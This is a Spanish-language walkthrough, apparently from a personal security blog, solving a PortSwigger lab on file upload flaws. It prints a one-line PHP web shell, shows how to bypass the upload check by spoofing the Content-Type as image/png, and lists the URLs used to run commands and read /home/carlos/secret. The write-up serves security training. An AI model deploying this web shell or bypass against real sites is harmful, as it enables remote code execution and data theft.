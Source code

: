 ```yaml
---
title: "Web shell upload via Content-Type restriction bypass"
date: 2024-11-24 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via Content-Type restriction bypass
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable` que intenta `evitar` que los usuarios `suban` tipos de `archivos inesperados`, pero se basa en verificar una entrada controlada por el usuario para hacerlo. Para `resolver` el `laboratorio`, debemos `subir` una `web shell` básica en `PHP`, usarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y luego usar este `secreto` utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` en nuestra `cuenta` usando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_3.png)

Si `inspeccionamos` con donde se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_4.png)

Nos `creamos` un `archivo` llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al intentar subirlo vemos que nos da este `error`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_5.png)

`Subimos` el `archivo` nuevamente y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_6.png)

Cambiamos el `Content-Type` a `image/png` y `subimos` el `archivo`, posteriormente abrimos nuevamente el `inspector` de `chrome` y vemos que el `archivo` subido se `aloja` en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_7.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=whoami` veremos que tenemos un `RCE (Remote Code Execution)`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_8.png)

Si accedemos a `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos` vemos un `archivo` llamado `secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_9.png)

Leemos la información de ese archivo con `https://0aa000d704efa5eb8202c09f005a0081.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_10.png)

Pulsamos en `Submit solution` y `mandamos` nuestra `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-2/image_11.png)

